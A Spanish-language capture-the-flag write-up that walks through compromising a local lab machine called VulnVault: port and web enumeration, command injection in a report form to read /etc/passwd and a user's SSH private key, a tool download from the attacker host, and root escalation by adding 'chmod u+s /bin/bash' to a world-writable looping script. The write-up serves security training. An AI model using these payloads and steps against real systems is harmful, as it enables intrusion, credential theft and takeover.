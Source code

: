 - Tags: #VulnVault
---
[Maquina VulnVault](https://mega.nz/file/1asGQbRK#zvWJuwPfUI0P43b2YDBesILqJogA3tv3SVQn4oORmSI) -> Enlace de descarga al laboratorio.
```bash
7z x vulnvault.zip # Descomprimimos el archivo
bash auto_deploy.sh vulnvault.tar # Desplegamos el laboratorio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target.

wichSystem.py 172.17.0.2 # Determinamos que nos enfrentamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-5000 # Usamos nuestra herramienta para realizar un escaneo de puetos
nmap -p- -sS --open --min-rate 5000 -vvv -v -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la versiones que corren detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0) )** -> Tenemos un servicio ssh expuesto.
**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** -> Tenemos un servicio web expuesto.**( ubuntuNoble )**

#### Fase Enumeracion Web:
```bash
nmap --script http-enum -p 80 172.17.0.2 # Tenemos un potencial folder -> 
 /old/: Potentially interesting folder

whatweb http://172.17.0.2 # No reporta nada critico respecto a las tecnologias.
```

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
/old/                 (Status: 200) [Size: 2828]

gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,back,js,css,html,py,txt # Descubrimos varios archivos.
```

**( http://172.17.0.2/index.php )** -> Tenemos la web principal donde nos permite subir reportes. Probamos a generar un reporte, de prueba.

```bash
nombre archivo: test
fecha del reporte: test
```

Logramos que aceptara estos datos, al parecer no esta validando las entradas. y en la web nos muestra el resultado del reporte:

```bash
### Reporte: reporte_1747847801.txt
Archivo de reporte: /var/www/html/reportes/reporte_1747847801.txt
Nombre: test
Fecha: test
```

**Nota** -> Aqui es donde intentaremos inyectar codigo para ver si lo interpreta
Interceptamos esa peticion con la herramienta **BurpSuite** en modo repiter, despues de probar varios tipos de inyeccion, logramos con esta sintaxis que nos interprete el comando, logrando evadir las restricciones.

```bash
POST /index.php HTTP/1.1 # Este archivo es el que interceptamos

nombre=prueba&fecha=test; cat /etc/passwd # Logramos ver el contenido de este archivo.

nombre=prueba&fecha=test; ls -l /home/samara # Leemos el contenido del directorio de este usuario
-rw-r--r-- 1 root   root   35 May 21 20:18 message.txt # Solo podremos ver este archivo.
-rw------- 1 samara samara 33 Aug 20  2024 user.txt
```

**( samara )** -> Tenemos un usuario filtrado el cual aplicaremos fuerza bruta para conectarnos atraves de este por **ssh**

```bash
nmap -p22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2 # Probamos primero con Nmap
```

```bash
drwxr-xr-x 2 samara samara 4096 Aug 20  2024 .ssh # Podemos ver el conteniod de sus claves ssh
nombre=prueba&fecha=test; cat /home/samara/.ssh/id_rsa # Copiaremos su clave para acceder al servidor mediante ssh

chmod 600 id_rsa # Una ves copiada y almacenada la usaremos como clave de acceso
```
#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh -i id_rsa samara@172.17.0.2 # Logramos conectarnos como este usuraio.
```

#### Fase Escalada Privilegios:
```bash
git clone https://github.com/DominicBreuker/pspy64 # Clonamos esta herramienta para enumerar el sistema objetivo.
python3 -m http.server 80 # Montamos un servidor python para transferir la herramienta al target.

wget http://192.168.100.22/pspy64 # Desde la maquina del target descargamos la herramienta.
```

```bash
chmod +x pspy64
./pspy64 # Ejecutamos el script

/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done # Vemos que ejecuta esta instruccion mediante un bucle infinito

ls -l /usr/local/bin/echo.sh # Revisando los permisos vemos que como otros tenemos capacidad de escritura el cual nos podemos aprovechar para que ejecute alguna accion.
-rwxrw-rw- 1 root root 82 Aug 20  2024 /usr/local/bin/echo.sh
```

```bash
#!/bin/bash
chmod u+s /bin/bash # Agregamos esta instruccion 
echo -e "\n [+} Hacked......."
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

```bash
ls -l /bin/bash # Sabiendo que se ejecuta infinitamente, Lograremos obtener privilegios SUID en la bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

bash -p # Ahora escalamos privilegios a root.
```